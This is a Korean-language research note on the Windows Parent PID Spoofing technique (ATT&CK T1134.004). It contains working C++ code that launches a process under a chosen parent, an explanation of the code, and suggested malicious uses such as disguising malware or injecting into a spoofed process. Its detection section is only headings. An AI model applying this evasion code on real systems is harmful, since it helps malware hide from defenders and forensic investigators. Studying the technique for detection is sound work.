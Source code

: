 ```yaml
---
title: "Parent Pid Spoofing"
layout: post
---
```


# Parent Pid Spoofing [T1134.004]

1. 개요
PPID를 원하는 대상의 PID로 바꾸는 기법이다.

defender가 프로세스의 부모 프로세스 명을 확인할 때 우회하는 용도로 쓰일 수 있어보인다. 
또한 포렌식할 때도 혼돈을 줄 수 있어보인다.



2. 설명
일반적으로 Creator Process는 Parent Process와 같다.

하지만 Creator Process와 Parent Process를 분리할 수 있는 방법이 있다.

이 방법은 Windows 내부에서도 사용되는데,
Windows internals 7th Part 1의 Chapter 7 Security - User Account Control And virtualization - Elevation - Running with administrative rights를 보자

관리자 권한으로 실행시 AIS(Application Information Service)


참고 :  - [ETW 설명](../../Tracing/ETW/Windows_Kernel_Trace/Process/kor.md) 


3. 구현
코드는 제작중인 분탕 프로젝트의 코드를 참조한다. - https://github.com/Ddatg30/Buntang

```cpp
DWORD AccessTokenManipulation::ParentPidSpoofing(DWORD parent_proc_infod, const std::wstring& process_path){
		SIZE_T size = 0;
		PVOID buffer = nullptr;
		STARTUPINFOEX start_info = { sizeof(start_info) };
		PROCESS_INFORMATION proc_info = { };
		HANDLE process_handle = nullptr;

		process_handle = ::OpenProcess(PROCESS_CREATE_PROCESS, FALSE, parent_proc_infod);
		if (process_handle == nullptr){
			return ::GetLastError();
		}

		::InitializeProcThreadAttributeList(nullptr, 1, 0, &size);
		if (size != 0){
			buffer = ::malloc(size);

			PPROC_THREAD_ATTRIBUTE_LIST attributes = reinterpret_cast<PPROC_THREAD_ATTRIBUTE_LIST>(buffer);

			::InitializeProcThreadAttributeList(attributes, 1, 0, &size);
			if (attributes != nullptr){
				::UpdateProcThreadAttribute(attributes, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &process_handle, sizeof(process_handle), nullptr, nullptr);
				start_info.lpAttributeList = attributes;

				// CREATE_NEW_CONSOLE flag is avoid error 0xC0000142 
				if (!::CreateProcessW(nullptr, const_cast<LPWSTR>(process_path.data()), nullptr, nullptr, FALSE, CREATE_NEW_CONSOLE | EXTENDED_STARTUPINFO_PRESENT, nullptr, nullptr, reinterpret_cast<STARTUPINFO*>(&start_info), &proc_info)){
					return ::GetLastError();
				}

				::DeleteProcThreadAttributeList(attributes);
				::CloseHandle(proc_info.hProcess);
				::CloseHandle(proc_info.hThread);
			}

			::free(buffer);
		}

		::CloseHandle(process_handle);

		return ERROR_SUCCESS;
	}
}
```

여담.
모든 if 문에 else로 return ::GetLastError(); 코드를 넣지 않았다.
해당 부분은 웬만해서는 에러가 일어나지 않기 때문이다.

4.  해설
InitializeProcThreadAttributeList로 프로세스 특성 설정 후 
UpdateProcThreadAttribute로 특성 설정 세팅 한 뒤 CreateProcessW로 프로세스 생성

spoofing 할 process를 CreateProcessW를 통해 생성 할 때 CREATE_NEW_CONSOLE이나 CREATE_NO_WINDOW flag를 주지않으면 0xC0000142 에러가 발생한다.



6.  현재 문제점
- UWP 앱에는 parent pid spoofing 행위를 하면 제약이 많다.
- spoofing 한 process가 createprocess를 호출하면 에러가 생긴다.
createprocess만 에러가 생기는것인지, 아니면 kernelbase를 통한 호출하는 모든 winapi들이 문제가 생기는 것인지 확인해야 한다.
![Description of Image](/tmp/windows/AccessTokenManipulation/ParentPidSpoofing/svchost.PNG)

kernelbase를 통하지 않는 ShellExecuteEx()나 NtCreateUserProcess()등을 호출해서 생성하는 경우에는 에러가 발생하지 않는다.



6.  활용
악성 프로그램을 spoof 프로세스로 이용
정상 프로그램을 spoof 프로세스로 만든 후 해당 프로세스에 인젝션



8.  탐지

7.1 etw

7.2 dtrace

7.3 kernel driver (PsSetCreateProcessNotifyRoutineEx)


더 연구해야 할 사항
1. office document에서는 PowerShell/Rundll32를 활용하는 것 같다. 해당 부분을 연구해 봐야한다.
2. Parent Pid Spoofing으로 Privilege Escalation이 가능한지 - windows 7 에서만 되는 것 같다?


